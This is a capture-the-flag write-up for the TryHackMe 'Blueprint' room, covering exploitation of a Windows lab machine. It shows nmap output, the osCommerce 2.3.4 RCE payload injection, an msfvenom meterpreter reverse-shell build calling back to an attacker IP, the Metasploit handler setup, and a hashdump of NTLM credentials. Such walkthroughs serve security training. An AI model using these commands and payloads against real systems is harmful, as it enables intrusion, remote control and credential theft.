









# BluePrint (THM)

- https://tryhackme.com/room/blueprint
- March 19, 2023
- easy

---

## Enumeration

### Nmap

```
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 7.5
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
8080/tcp  open  http         syn-ack Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack Microsoft Windows RPC
```

- There are 10 ports open with nmap custom ports and it is a Windows machine 

### HTTP

- nothing found
- try with common directories and files and nothing found

### HTTPS

- it redirects to /oscommerce-2.3.4



### HTTP/8080

- same as above with port 443
- there is RCE exploit for oscommerce-2.3.4



- download from searchsploit



- read the exploit code

```python
# eg: python3 osCommerce2_3_4RCE.py http://localhost/oscommerce-2.3.4/catalog
testVulnUrl = baseUrl + '/install/install.php'
targetUrl = baseUrl + '/install/install.php?step=4'
```
- this route exists



```python
payload = "');"
payload += "passthru('" + command + "');"    # injecting system command here
payload += "/*"
```
- can add system command here
- in this exploit, author use `cmd = 'whoami'` command
- change it later



- Oh! Get `nt authority\system` access directly
- need to get shell access



- create payload with msfvenom

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.8.57 LPORT=4242 -f exe > shell.exe
```

- create a python server in the same directory with `shell.exe` file and get shell.exe 



- check shell.exe file exists



- listen with multi_handler from msfconsole

```sh
msf6 > use multi/handler
msf6 exploit(multi/handler) > set LHOST 10.11.8.57
msf6 exploit(multi/handler) > set LPORT 4242
msf6 exploit(multi/handler) > set payload /windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```
- run `shell.exe` 



```sh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```
- I use `crackstation.net` to crack NTLM hash for Lab user `30e87bf999828446a1c1209ddde4c450`

```sh
meterpreter > cat C:\Users\Administrator\Desktop\root.txt.txt
```

---